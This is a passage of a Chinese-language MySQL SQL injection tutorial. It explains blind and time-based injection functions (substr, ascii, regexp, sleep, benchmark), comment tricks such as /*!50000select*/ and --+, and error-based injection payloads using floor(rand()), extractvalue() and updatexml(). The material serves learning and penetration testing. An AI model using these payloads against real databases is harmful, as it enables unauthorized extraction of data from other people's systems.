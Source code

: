 ```sql
#这里使用substr(str,pos,len)这个函数来对返回的字符进行截取，从pos位置截取len长度的字符，进行返回，这里的话获取到了第一行的数据之后，就要不停的改变pos或者len来匹配字符，不过建议配合ascii()函数使用，因为这样效率会快一些，这样的话就改变pos就好了

select 1,ascii( substr( (select table_name from information_schema.tables where table_schema = database() limit 0,1 ) ,1,1) )
#ascii(str)函数会把括号中的字符作为ascii码返回，这的话可以使用2分法去对字符进行枚举
```

### 其他盲注函数
* ord()函数效果和ascii()类似
* mid()和substr()一样
* reserver(str) 把str倒序然后返回
* like匹配
* regexp 比较重要的正则注入 
    * regexp,使用正则表达式进行注入也可以比较快的确定字符范围，而且它是默认不区分大小写的，如果要区分的话可以用 regexp binary
    * `select 1 from information_schema.tables where table_schema=database() and table_name regexp "正则" limit 0,1;`

### 延时注入使用函数
如果是碰到延时注入，那么需要配合if()函数使用  
if(表达式，为真执行这个，为假执行这个)
* sleep(num) 延迟num秒返回数据  
    `注意如果查询的参数不存在，那么sleep也不会被执行，那么到时候可能会造成不存在注入的假象`
* benchmark(count,expr) 执行count次expr(表达式)，可以通过增加计算量来达到延迟效果
* rpad(str,len,padstr) 返回字符串 str, 其右边由字符串padstr 填补到len 字符长度。假如str 的长度大于len, 则返回值被缩短至 len 字符。
* repeat(str,count) 返回由字符串str重复count次的字符串， 如果计数小于1，则返回一个空字符串。返回NULL如果str或count为NULL。
* rlike 和regexp一样，可以通过多次正则来消耗资源

> <h2 id="5">0x05 注入时的常用注释</h2>
* /**/ 这个注释符主要是进行多行注释，在使用时可以只写 /* 来达到注释后面语句的效果
* \# 注释一行
* --+ 注释一行，注意其实是--（空格），只不过在url地址栏中空格老是会被转码，所以使用+代替，因为+会被转为空格
* /\*!\*/ 内联注释,在内联注释中的语句是会被执行的
    ```
    关于内联注释，还可以这样写/*!50000select*/,这样是没问题的，可以执行的，50000=>数字>=10000,填这个范围内的数字都是OK的
    ```

> <h2 id="6">0x06 报错注入</h2>
* floor() & rand()
    ```sql
    利用手法:
    and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
    #注意这里的floor报错函数写在了from后面，这里是很关键的，第一个select后面不支持多个参数，最多只能写一个，不然就会报错，所以才要把报错语句写在from后面
    #为什么会报错？，如果你select没有用括号包起的话，多个参数是没问题的，但是用了and被括号包起来的select就会有问题，我觉得可能和select (1,2,3)这种行为差不多，这个也会报错
    ```
    ```
    这个方法的核心是用floor配合rand函数在配合group by进行报错，所以floor(rand(0)*2)写哪里无所谓，但是要有，而且一定要用group by 去对他进行排序才行。
    ```
* extractvalue()
    ```sql
        利用手法:
        and (extractvalue(1,concat("~",(select database()))))
    ```
    ```
        这个函数的利用手法在于它的第二个参数，本来是要写xml文档的路径的，但是我们写一个不属于xml文档路径的格式符号在里面就会报错。
    ```
* updatexml()
    ```sql
        利用手法:
        and (updatexml(1,concat('~',(select database()),'~'),3))
        #这个函数的操作点就在中间位置
    ```